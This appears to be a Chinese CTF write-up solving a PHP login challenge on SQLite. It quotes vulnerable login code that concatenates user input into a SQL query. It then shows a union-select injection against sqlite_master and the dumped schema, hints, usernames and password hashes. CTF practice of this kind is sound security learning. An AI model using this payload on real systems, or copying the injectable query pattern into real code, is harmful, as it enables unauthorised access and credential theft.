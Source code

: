 在login.php存在hint，猜测有debug的页面。<figure class="wp-block-image size-full">

<img loading="lazy" width="390" height="21" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/09/图片-141.png" alt="" class="wp-image-3800" /> </figure> 

输入`url/?debug=1`，看到数据库为SQLite3。

```php
<?php
if(isset($_POST['usr']) && isset($_POST['pw'])){
        $user = $_POST['usr'];
        $pass = $_POST['pw'];

        $db = new SQLite3('../fancy.db');
        
        $res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'");
    if($res){
        $row = $res->fetchArray();
    }
    else{
        echo "<br>Some Error occourred!";
    }
    
    if(isset($row['id'])){
            setcookie('name',' '.$row['name'], time() + 60, '/');
            header("Location: /");
            die();
    }

}

if(isset($_GET['debug']))
highlight_file('login.php');
?> 
```

SQLite数据库只有它本身一个数据库，有一个sqlite_master隐藏表，里面存放我们建表的记录。构造`' union select  name,sql  from sqlite_master--`抓包进行分析。<figure class="wp-block-image size-full">

<img loading="lazy" width="971" height="366" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/09/图片-145.png" alt="" class="wp-image-3806" /> </figure> 

经过url解密得到信息

<pre class="wp-block-code"><code> CREATE TABLE Users(id int primary key,name varchar(255),password varchar(255),hint varchar(255))</code></pre>

接着分别查询hint，name，password。结果如下：

```
my fav word in my fav paper?!,my love isâ¦?,the password is password

admin,fritze,hansi

3fab54a50e770d830c0416df817567662a9dc85c,54eae8935c90f467427f05e4ece82cf569f89507,34b0bb7c304949f9ff2fc101eef0f048be10d3bd
```
